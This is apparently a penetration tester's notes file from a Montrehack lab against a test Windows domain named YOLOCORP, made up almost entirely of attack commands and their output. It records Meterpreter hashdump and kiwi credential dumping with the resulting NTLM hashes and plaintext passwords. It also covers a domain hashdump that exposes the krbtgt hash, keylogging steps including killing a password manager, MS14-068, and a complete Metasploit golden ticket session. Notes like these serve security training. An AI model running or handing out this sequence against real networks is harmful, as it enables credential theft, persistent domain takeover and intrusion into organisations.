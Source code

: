 = Pentest Windows

== Netbios lookup

    $ nmblookup l33thax0r
    192.168.1.103 l33thax0r<00>

== LLMNR lookup

    $ systemd-resolve -p llmnr llmnr_test
    llmnr_test: 192.168.1.103%dongle0

    -- Information acquired via protocol LLMNR/IPv4 in 582.0ms.
    -- Data is authenticated: no

== Montrehack notes

    meterpreter > background
    set exploit local
    set payload ...

meterpreter > hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CodeMonkey:1000:aad3b435b51404eeaad3b435b51404ee:8c3efc486704d2ee71eebe71af14d86c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
it_support:1001:aad3b435b51404eeaad3b435b51404ee:d7e233670b66858a436c353b205d4faa:::


load kiwi

creds_all

    Domain     User           Password LM Hash  NTLM Hash
    ------     ----           --------
    -------  ---------
    APPSERVER  Administrator  SuperDumbPassword1234                                                                                                              
    YOLOCORP   APPSERVER$     ;ie1R1$akIR`PRYy/gAf-#z%x_>rWbhi1?jx]jp<q*dw5R`3#``IVa]6E%]ocrAp`oA2oFFXJ]V0*zw,zgClUWI<Kj?uXo-##+ShyNRhPh I'iu]AK?C*W!           
    YOLOCORP   Administrator  MegaSecurePassword1337                                                                                                             

psexec

sessions -l

sessions -i <id>

getuid

lester (local exploit suggester),
https://community.rapid7.com/community/metasploit/blog/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more

meterpreter > run post/windows/gather/credentials/domain_hashdump 

    [+] krbtgt (Key Distribution Center Service Account)
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6D981B5F011897173B8798B768A50159
    Password Expires: r
    Last Password Change: 5:46:47 PM Tuesday, February 09, 2016
    Last Logon: 12:00:00 AM Monday, January 01, 1601
    Logon Count: 0
     - Account Disabled

     Hash History:
     krbtgt:502:59D0B36FFE13DCCD01313C4B61F7BF28:6D981B5F011897173B8798B768A50159

corpo_user:Yolocorp2016

== Keylog

* migrate into explorer.exe process
* start keyscan dumping
* kill keypass.exe :3

== ms14-068

    msf post(enum_logged_on_users) > run

    [*] Running against session 6

    Current Logged Users
    ====================

    SID                                            User
    ---                                            ----
    S-1-5-18                                       NT AUTHORITY\SYSTEM
    S-1-5-21-3307929019-2426675606-3645377723-500  YOLOCORP\Administrator

    [*] Results saved in: /home/olivier/.msf4/loot/20160215205714_default_192.168.8.1_host.users.activ_126411.txt


    [+] corpo_user ()
    corpo_user:1105:aad3b435b51404eeaad3b435b51404ee:4F47C5CCDD37B4194A9EF1AC13484AD7
    Password Expires: r
    Last Password Change: 3:30:45 PM Wednesday, February 10, 2016
    Last Logon: 5:34:59 PM Monday, February 15, 2016
    Logon Count: 6
     - Password Never Expires

     Hash History:
     corpo_user:1105:ADAEC08AA44D3B71BF679D17BF3DAB34:4F47C5CCDD37B4194A9EF1AC13484AD7



== Golden ticket creation

----
msf exploit(psexec) > use post/windows/escalate/golden_ticket
msf post(golden_ticket) > show options

Module options (post/windows/escalate/golden_ticket):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DOMAIN                        no        Target Domain
   Domain SID                    no        Domain SID
   GROUPS                        no        ID of Groups (Comma Seperated)
   ID                            no        Target User ID
   KRBTGT_HASH                   no        KRBTGT NTLM Hash
   SESSION                       yes       The session to run this module on.
   USE          false            yes       Use the ticket in the current session
   USER                          no        Target User

msf post(golden_ticket) > set session 6
session => 6
msf post(golden_ticket) > set user Administrator
user => Administrator
msf post(golden_ticket) > set domain YOLOCORP
domain => YOLOCORP
msf post(golden_ticket) > set krbtgt_hash 6D981B5F011897173B8798B768A50159
krbtgt_hash => 6D981B5F011897173B8798B768A50159
msf post(golden_ticket) > exploit

[*] Obtaining YOLOCORP SID...
[+] Found YOLOCORP SID: S-1-5-21-3307929019-2426675606-3645377723
[*] Creating Golden Ticket for YOLOCORP\Administrator...
[+] Golden Ticket Obtained!
[*] Ticket saved to /home/olivier/.msf4/loot/20160215202156_default_192.168.8.1_golden.ticket_237379.bin
[*] Post module execution completed
msf post(golden_ticket) > 
----



